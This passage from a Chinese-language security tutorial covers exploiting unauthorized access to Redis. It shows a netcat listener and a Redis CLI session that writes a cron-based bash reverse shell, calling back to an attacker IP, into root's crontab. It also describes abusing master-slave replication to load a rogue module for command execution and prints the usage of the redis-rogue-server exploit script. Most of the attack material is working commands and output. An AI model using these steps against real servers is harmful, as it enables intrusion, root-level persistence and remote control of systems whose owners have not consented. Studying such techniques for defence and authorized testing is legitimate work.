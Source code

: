 ![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628515979062-1d027d69-3100-4eb9-9496-43b0b15a7768-20220415143203717.png)

### 定时任务

也可以通过写入定时任务反弹Shell，获取权限

<a-checkbox checked>攻击机监听端口 </a-checkbox></br>

<a-checkbox checked>nc -lvvp 9999</a-checkbox></br>

```php
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628603729549-61622428-de4c-4dbf-abdb-7ceb5c0d6240-20220415143203493.png)

### 主从复制

<a-checkbox checked>如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。</a-checkbox></br>

<a-checkbox checked>为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机</a-checkbox></br>

<a-checkbox checked>其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式</a-checkbox></br>

Redis未授权访问在4.x/5.0.5以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。



关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```
